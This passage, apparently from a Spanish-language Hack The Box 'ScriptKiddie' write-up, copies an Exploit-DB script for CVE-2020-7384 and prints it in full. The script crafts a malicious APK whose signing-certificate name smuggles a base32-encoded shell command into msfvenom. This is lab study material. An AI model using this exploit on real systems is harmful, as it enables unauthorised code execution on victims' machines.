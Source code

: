 ```sh
❯ searchsploit -m 49491
  Exploit: Metasploit Framework 6.0.11 - msfvenom APK template command injection
      URL: https://www.exploit-db.com/exploits/49491
     Path: /opt/exploitdb/exploits/multiple/local/49491.py
    Codes: CVE-2020-7384
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/guise/HTB/Machines/Linux/ScriptKiddie/reco/49491.py

# Aprovecho para cambiarle el nombre y darle permisos de ejecución:

❯ mv 49491.py createAPK.py
❯ chmod +x createAPK.py
```

Este es el contenido del script en python3:

```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b32encode

# Change me
payload = 'echo "Code execution as $(id)" > /tmp/win'

# b32encode to avoid badchars (keytool is picky)
# thanks to @fdellwing for noticing that base64 can sometimes break keytool
# <https://github.com/justinsteven/advisories/issues/2>
payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
```